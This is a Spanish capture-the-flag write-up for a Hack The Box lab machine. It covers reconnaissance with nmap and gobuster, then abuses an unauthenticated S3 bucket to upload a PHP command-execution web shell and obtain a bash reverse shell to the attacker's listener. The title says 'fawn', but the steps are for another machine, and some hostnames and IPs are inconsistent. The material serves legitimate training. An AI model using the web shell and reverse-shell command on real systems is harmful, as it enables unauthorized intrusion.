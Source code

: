 ```yaml
---
title: "Writeup fawn - Hack The Box - Resolución y Análisis"
published: true
tags:
  - hackthebox
  - writeup
  - fawn
  - ciberseguridad
  - pentesting
description: "Writeup y resolución de la máquina fawn en Hack The Box."
keywords:
  - writeup fawn
  - hack the box fawn
  - resolución máquina fawn
  - fawn hack the box
  - htb fawn
---
```


### 🔗 Accesos rápidos

- 📄 **Writeup online**: [https://bunzopy.github.io/writeups-apuntes/fawn](https://bunzopy.github.io/writeups-apuntes/fawn)
- 📺 **Resolución en vivo (completa)**: [https://youtube.com/tu-video-completo](https://youtube.com/tu-video-completo)
- 🧠 **Explicación resumida**: [https://youtube.com/tu-video-resumido](https://youtube.com/tu-video-resumido)

---
1)¿Cuántos puertos TCP hay abiertos?
	2

2)¿Cuál es el dominio de la dirección de correo electrónico facilitada en la sección «Contacto» del sitio web?
	thetoppers.htb

3)En ausencia de un servidor DNS, ¿qué archivo de Linux podemos utilizar para resolver nombres de host en direcciones IP con el fin de poder acceder a los sitios web que apuntan a esos nombres de host?
	/etc/hosts

4)¿Qué subdominio se descubre durante la enumeración posterior?
	s3.thetoppers.htb
	[[aws]]
	
5)¿Qué servicio se ejecuta en el subdominio descubierto?
	amazon s3

6)¿Qué utilidad de línea de comandos puede utilizarse para interactuar con el servicio que se ejecuta en el subdominio descubierto?
	awscli
	Pero el comando para usar en consola es aws

7)¿Qué comando se utiliza para configurar la instalación de la CLI de AWS?
	aws configure

8)¿Cuál es el comando utilizado por la utilidad anterior para listar todos los buckets de S3?
	aws s3 ls
	
9)¿Este servidor está configurado para ejecutar archivos escritos en qué lenguaje de scripting web?
	php

-------
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.129.227.248
nmap -p- --open -vvv --min-rate 5000 -sS -n -Pn 10.129.227.248 -oG allPorts
extractPorts allPorts
nmap -sCV -p22,80 10.129.227.248 -oN target
```

![[Three1.png]]

![[Three2.png]]

Sabemos que es una maquina linux por el ttl cercano a 64, y que el puerto 22 esta abierto con un servicio ssh y el 80 con un apache

------
# [[Whatweb-wappalyzer]]
![[Three3.png]]
El script de nmap no conectaba y el whatweb nos da el mail con dominio thetoppers.htb que lo vamos a agregar a etc/hosts para probar

------

# Agregar dominio a /etc/hosts

```
10.129.227.248 thetoppers.htb
```

![[Three4.png]]

--------

# Enumeracion de subdominios con [[Gobuster]]
Tuvimos que usar el gobuster, por que en el ffuf no salia nada y al ver el writeup, vemos que con gobuster si encontraba el subdominio, pero como sale con codigo de estado 404, no nos aparece en ffuf

```shell
gobuster vhost -u http://thetoppers.htb -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain
```

![[Three5.png]]
Como resultado tenemos s3.thetoppers.htb

-----
# Agregar dominio a /etc/hosts

```
10.129.182.45 s3.thetoppers.htb
```

![[Three6.png]]

Ahora entramos a la pagina `http://s3.thetoppers.htb/` y ya nos va a cargar
![[Three13.png]]

-------
# Intrusion a la maquina con [[aws]]

Vamos a acceder a los contenedores de amazon s3, y ver sus contenidos para enumerar un poco, podemos ver que estos son los archivos de la pagina principal, asi que vamos a cargar posteriormente un archivo que nos permita ejecutar comandos

```shell
aws --endpoint-url http://s3.thetoppers.htb s3 ls --no-sign-request
aws --endpoint-url http://s3.thetoppers.htb s3 ls s3://thetoppers.htb --no-sign-request
```

![[Three7.png]]
Con el primer comando al ver que nos responde thetoppers.htb sabemos que esta hosteando la pagina victima, asi que vamos a intentar cargar y/o modificar archivos
Con el segundo comando visualizamos el contenido del directorio



Vamos a descargar el archivo index para ver si nos da alguna pista:
```shell
aws --endpoint-url http://s3.thetoppers.htb s3 ls s3://thetoppers.htb/index.php --no-sign-request
```

![[Three10.png]]
El contenido del archivo index no nos dio ningun dato util
#### Cargamos el archivo [[archivo php inyección comandos]]

Contenido del archivo exploit.php
```
<?php system($_GET["cmd"]); ?>
```

Ahora con este comando de [[aws]] vamos a cargar el archivo exploit.php
```
aws --endpoint-url=http://s3.thetoppers.htb s3 cp exploit.php s3://thetoppers.htb --no-sign-request
```

![[Three8.png]]

Desde la maquina victima, vamos a hacer una prueba para ver si funciona el archivo que cargamos

http://thetoppers.htb/exploit.php?cmd=id
![[Three9.png]]
Como podemos ver nos muestra nos responde, asi que el archivo cumple su funcion correctamente



-------
## Enviamos la [[Reverse shell]] mientras estamos en escucha con [[nc -nlvp 443]] en nuestra maquina

##### Desde la maquina victima:

```
http://thetoppers.htv/exploit.php?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.16.16/443 0>%261'
```

![[Three11.png]]

##### Desde la maquina atacante:

```
nc -nlvp 443
```
![[Three12.png]]
Una vez dentro de la maquina cateamos la flag

----------
# Creditos
Writeup oficial HackTheBox